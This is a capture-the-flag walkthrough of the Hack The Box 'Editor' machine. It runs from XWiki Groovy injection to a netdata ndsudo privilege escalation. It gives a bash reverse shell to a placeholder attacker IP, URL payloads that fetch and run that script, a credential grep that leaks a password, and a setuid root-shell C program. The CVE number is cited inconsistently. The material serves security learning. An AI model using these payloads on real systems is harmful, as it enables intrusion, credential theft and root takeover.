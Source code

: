 # Editor

```
Difficulty: Easy
Operating System: Linux
Hints: True
```



#### 🏁 Summary of Attack Chain

```
| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap, /etc/hosts | Identified open ports and domain `editor.htb` |
| 2 | (Web) | XWiki Enumeration | Found XWiki version `15.10.8` and associated CVE-2025-24983 |
| 3 | xwiki | Groovy Script Injection (CVE-2025-24983) | Executed remote command to download and run a reverse shell script |
| 4 | xwiki | Shell Enumeration | Gained a shell as the `xwiki` user and identified user `oliver` |
| 5 | xwiki -> oliver | File Enumeration | Found `oliver`'s SSH password (`theXXXXXXXeam99`) in `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml` |
| 6 | oliver | SSH Login | Gained an SSH shell as `oliver` and retrieved `user.txt` |
| 7 | oliver | Port Enumeration | Used `ss -tulnp` to find `netdata` service listening on `127.0.0.1:19999` |
| 8 | oliver | SSH Local Port Forwarding | Forwarded port `19999` to `localhost` to access the `netdata` dashboard |
| 9 | oliver | Netdata Vulnerability (CVE-2024-32019) | Identified a local privilege escalation vulnerability in `netdata` version `1.45.2` |
| 10 | oliver -> root | Custom Executable & PATH Manipulation | Exploited `ndsudo` to run a malicious binary (`nvme`) with root privileges |
| 11 | root | Root Shell | Gained a `root` shell and retrieved `root.txt` |
```
![Map](Pictures/htb_Editor_Mind_Map.png)

#### Initial Enumeration
First, I performed an nmap scan and found several open ports. The most interesting finding was the domain editor.htb, which I added to my /etc/hosts file.

Bash

```
sudo nano /etc/hosts
<MACHINE_IP> editor.htb
```
Navigating to http://editor.htb in a browser revealed a code editor interface. Further enumeration showed a service running on port 8080, which turned out to be XWiki, an open-source wiki platform.


### Foothold and user.txt
The XWiki instance was running version 15.10.8. A quick search for this version, in combination with "XWiki", led me to a vulnerability with the CVE ID CVE-2025-24983.

I searched for an exploit for this CVE and found a helpful Python script on GitHub: https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py. This exploit allows for remote code execution via a Groovy script injection.

The exploitation process involved two main steps: uploading a reverse shell script and then executing it.

First, I created a simple reverse shell script named shell.sh:

Bash

```
cat shell.sh
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1
```

Next, I hosted this script on my local machine using a Python web server.

Bash

```
python -m http.server 80
```
![Python](Pictures/htb_Editor_Python_S.png)


From a browser, I used the following URL to upload the shell.sh script to the target machine's /tmp directory. I made sure to replace <YOUR_IP> with my IP address.

```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://<YOUR_IP>/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

With the file uploaded, I set up a netcat listener on my machine.

Bash
```
nc -lnvp 4444 

##OR 

python3 penelope.py -i tun0 4444
```
Finally, I used a second browser tab with another URL to execute the uploaded script, which immediately gave me a reverse shell as the xwiki user.

```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

Note: If the shell doesn't connect, it may be necessary to run the upload and execute commands again.

The shell connected, and I confirmed my user was xwiki. I then checked the /etc/passwd file and identified a user named oliver in the /home directory.

To escalate my privileges from xwiki to oliver, I began looking for credentials. I found a potentially useful configuration file at /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml.

Bash

```
cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
```

The output contained several passwords, including theXXXXXXXXXX99. I attempted to use this password to log in via SSH as the user oliver, and it was successful.

![Rev](Pictures/htb_Editor_xwiki_RevShell_Password_leak.png)

Bash

```
ssh oliver@editor.htb
```

With the SSH shell, I was able to retrieve the user.txt flag.

### Privilege Escalation and root.txt

Once logged in as oliver, I checked for potential privilege escalation vectors. My first attempt was to check sudo permissions, but this was not fruitful.

Bash

```
oliver@editor:~$ sudo -l
[sudo] password for oliver: 
Sorry, user oliver may not run sudo on editor.
```

Next, I enumerated network sockets with ss -tulnp to identify any services running locally.

Bash

```
oliver@editor:~$ ss -tulnp
```

The output showed a service listening on port 19999 on the loopback address (127.0.0.1), which was identified as netdata.

To interact with this service, I used SSH local port forwarding to tunnel the port to my local machine.

Bash

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

![Script](Pictures/htb_Editor_SSH_PORTFAct.png)

By navigating to http://localhost:19999 in my browser, I could access the netdata dashboard. The dashboard indicated that the service was running version 1.45.2 and needed to be updated.

![Script](Pictures/htb_Editor_SSH_PORTF.png)

A quick search for netdata 1.45.2 revealed a local privilege escalation vulnerability, CVE-2024-32019. The vulnerability's Proof of Concept (PoC) involves using a specific ndsudo command to execute an arbitrary binary with root privileges.

The PoC steps are as follows:

Create a malicious executable with a name that ndsudo expects (e.g., nvme).

Place the executable in a writable path (e.g., /tmp).

Modify the PATH environment variable to include this path.

Run ndsudo with the designated command.

I created a C file named malicious.c that would spawn a root shell when executed.

C

```
// mal.c
#include <unistd.h>
#include <stdlib.h>
int main() {
  setuid(0);
  setgid(0);
  execl("/bin/bash", "bash", "-i", NULL);
  return 0;
}
```

![Script](Pictures/htb_Editor_CodeC.png)

I then compiled this file, naming the output nvme.

Bash

```
gcc -o nvme malicious.c
```

After compiling, I started a Python server on my local machine to host the nvme binary.

![Script](Pictures/htb_Editor_CodeCcompile.png)

Bash

```
python -m http.server 80
```

![Script](Pictures/htb_Editor_Python_S.png)

Finally, from my oliver shell, I downloaded the binary, made it executable, updated my PATH, and executed the vulnerable command to get a root shell.

Bash

```
cd /tmp
wget http://<YOUR_IP>/nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
![Priviledge Esc](Pictures/htb_Editor_Priviledge_Esc.png)

### Root

![Root Flag](Pictures/htb_Editor_Root_Flag.png)

Executing the command immediately dropped me into a root shell, allowing me to retrieve the root.txt flag from the /root directory.


**Pwned! Editor**
